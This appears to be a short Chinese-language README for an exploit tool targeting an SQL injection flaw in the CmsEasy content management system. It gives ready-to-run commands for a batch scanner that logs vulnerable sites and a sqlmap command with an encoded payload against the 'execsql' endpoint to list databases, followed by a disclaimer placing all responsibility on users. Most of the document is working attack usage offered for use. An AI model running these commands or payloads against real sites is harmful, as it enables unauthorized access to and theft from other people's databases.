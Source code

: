 # CmsEasy_sql

CmsEasy 存在SQL注入漏洞。


## 工具利用

python3 cmseasy_sql_scan.py -u http://127.0.0.1:1111 单个url测试

python3 cmseasy_sql_scan.py -f url.txt 批量检测
扫描结束后会在当前目录生成vuln.txt记录存在漏洞的url
![](./2.png)

sql注入执行
python sqlmap.py -u "https://xxx.xxx.xxx.xxx/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5" --dbs
![](./1.png)


## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
